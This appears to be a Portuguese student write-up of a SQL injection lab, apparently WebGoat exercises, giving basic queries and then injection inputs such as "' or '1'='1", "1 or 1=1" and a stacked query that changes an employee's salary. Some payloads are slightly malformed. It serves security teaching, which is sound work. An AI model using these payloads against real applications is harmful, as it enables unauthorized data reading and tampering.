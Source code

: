 ## Pergunta 1.1 - SQL Injection ##
### 2) ###
Retornar o departamento do empregado Bob Franco. 

    SELECT department FROM Employees WHERE first_name='Bob' AND last_name='Franco'

![1.2](./imagens/1.2.png)  


### 3) ###
Alterar o departamento do empregado Tobi Barnett para 'Sales'.

    UPDATE Employees SET department='Sales' WHERE first_name='Tobi' AND last_name='Barnett'
    
![1.3](./imagens/1.3.png)


### 4) ###
Adicionar a coluna "phone" na tabela "employees"

    ALTER TABLE Employees ADD phone varchar(20)
    
![1.4](./imagens/1.4.png)


### 5) ###
Conceder a um grupo de utilizadores o direito de alterar tabelas

    GRANT ALTER TABLE TO 'UnauthorizedUser'
    
![1.5](./imagens/1.5.png)


### 9) ###
Obter todos os utilizadores da tabela onde os campos foram preenchidos por:
+ Smith'
+ or
+ '1'='1

A query final otida foi:

    SELECT * FROM user_data WHERE first_name="John" and last_name='Smith' or '1'='1'
    
![1.9](./imagens/1.9.png)


### 10) ###
O objetivo desta alínea passava por retornar todos os dados da tabela 'users'. Assim, após descobrimos que o campo User_Id era suscetível a SQL Injection, preenchemos os campos da seguinte forma:
+ **Login_Count**: 1
+ **User_Id**: 1 or 1=1

Obtendo assim:

    SELECT * FROM user_data WHERE Login_Count=1 and userid=1 or 1=1
    
![1.10](./imagens/1.10.png)


### 11) ###
Neste ponto era pretendido obter todos os dados da tabela 'employees', sabendo que a query era: 
    
    SELECT * FROM employees WHERE last_name='" + name + "' AND auth_tan= '" + auth_tan + ""
   
Assim, os campos foram completados com: 
+ **Employee Name**: Smith
+ **Authentication TAN**: 3SL99A' or '1'='1';--

![1.11](./imagens/1.11.png)


### 12) ###
Após sabermos o formato da tabela 'employees' devido à alínea anterior bastava-nos alterar o input pretendido num dos campos criando uma nova query e delimintando-as com ';'
Posto isto, os campos forma preenchidos da seguinte forma:
+**Employee Name**: Smith
+**Authentication TAN**: 3SL99A'; UPDATE SET salary=9999999 where last_name='Smith

![1.12](./imagens/1.12.png)

  
    




